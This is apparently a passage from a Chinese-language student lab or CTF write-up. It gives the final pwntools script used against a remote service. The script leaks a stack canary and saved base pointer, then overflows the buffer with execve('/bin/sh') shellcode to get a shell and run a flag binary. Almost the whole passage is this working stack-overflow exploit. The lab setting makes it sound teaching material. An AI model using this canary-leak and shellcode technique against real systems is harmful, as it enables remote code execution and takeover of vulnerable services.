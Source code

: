 
### 5 结果
我们最终使用的代码如下：
```python
from pwn import *
context(arch = 'x86_64', os = 'linux')
context.log_level = 'DEBUG'

conn = remote("116.62.228.23", 10001)

conn.recvuntil("StudentID:\n")
conn.sendline("3190105871")

# === Run 1 ===
conn.recvuntil(b"data:\n");
conn.send(b'0' * 25);
run1_recv = conn.recvline();
canary = u64(b'\x00' + run1_recv[0x2a:0x31]);
saved_rbp = u64(run1_recv[0x31:0x37] + b'\x00\x00');
print("canary = " + hex(canary));
print("saved rbp = " + hex(saved_rbp));

# === Run 2 ===
shellcode = """
        sub	    rsp, 48
        xor     rdx, rdx
        mov     rbx, 0x68732f6e69622f2f
        shr     rbx, 0x8
        push    rbx
        mov     rdi, rsp
        push    rax
        push    rdi
        xor	    rsi, rsi
        xor	    rax, rax
        mov     al, 0x3b
        syscall
"""

shellcode = asm(shellcode)
#shellcode += b'0' * (0xc8 - 0xa0 - int(size(shellcode)[:-1]))

print("Size of shellcode = " + size(shellcode))

conn.send(b'0' * 24 + p64(canary) + p64(saved_rbp) + p64(saved_rbp) + shellcode);

conn.recvuntil(b"data:\n");
conn.send(b'0' * 24);

conn.sendline("./flag.exe 3190105871");
conn.interactive()

```
得到了正确结果！
![image.png](./assets/1654189237508-88f50f9b-c85f-4f0c-9007-5e906b3c3a37.png)
